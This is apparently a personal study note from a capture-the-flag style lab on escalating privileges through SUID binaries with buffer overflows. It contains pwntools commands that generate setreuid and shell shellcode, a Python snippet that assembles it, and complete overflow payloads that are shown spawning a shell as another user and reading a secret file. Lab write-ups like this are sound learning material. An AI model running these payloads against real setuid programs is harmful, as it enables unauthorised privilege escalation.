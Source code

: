
### Debugging SUID and SGID

You can only debug a setuid or setgid program if the debugger is running as root. Otherwise you could just call gdb on /bin/su and have root. If you run Gdb as root, you'll be able to run your program, but you'll only be observing its behavior when run by root.

If you need to debug the program when it's not started by root, start the program outside the debugger, make it pause in some fashion and `attach` the process.


### How do we run shellcode with the SUID permission?

We need to within the code set the suid:

We can generate shellcode with the shellcraft functionality of pwntools

At the command line:
```sh
pwn shellcraft --format d amd64.linux.setreuid 1002
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

We can get the code for setreuid
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d amd64.linux.setreuid 1001
\x31\xff\x66\xbf\xe9\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

and for sh
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d amd64.linux.sh           
\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

or both at the same time
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d amd64.linux.setreuid 1001 + amd64.linux.sh
\x31\xff\x66\xbf\xe9\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

or
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d i386.linux.setreuid 1001 + i386.linux.sh 
\x31\xdb\x66\xbb\xe9\x03\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

In python:
```python
print("\nGenerating shellcode for a SUID binary - user id 1001")
context.arch = "i386"
context.bits = 32
shell_i386 = shellcraft.i386.linux.setreuid("1001")+shellcraft.i386.linux.sh()
#print(shell_i386) # outputs assembler code
shellcode = asm(shell_i386)
print("Shellcode: "+str(shellcode)) # generates machine code in bytes format
print("Shellcode length: "+str(len(shellcode))+"bytes")
```

Example from [[Examples/THM Buffer Overflows/overflow-3 - suid binary|overflow-3 - suid binary]]
```sh
[user1@ip-10-10-60-107 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*(152-40-10)+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x41'*10+'\x80\xe2\xff\xff\xff\x7f\x00\x00')")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAA�����
sh-4.2$ whoami
user1
sh-4.2$ exit
exit
[user1@ip-10-10-60-107 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*(152-14-40-10)+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05'+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x41'*10+'\x80\xe2\xff\xff\xff\x7f\x00\x00')")
Here's a program that echo's out your input
����������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAA�����
sh-4.2$ whoami
user2
sh-4.2$ cat secret.txt
omgyoudidthissocool!!
```




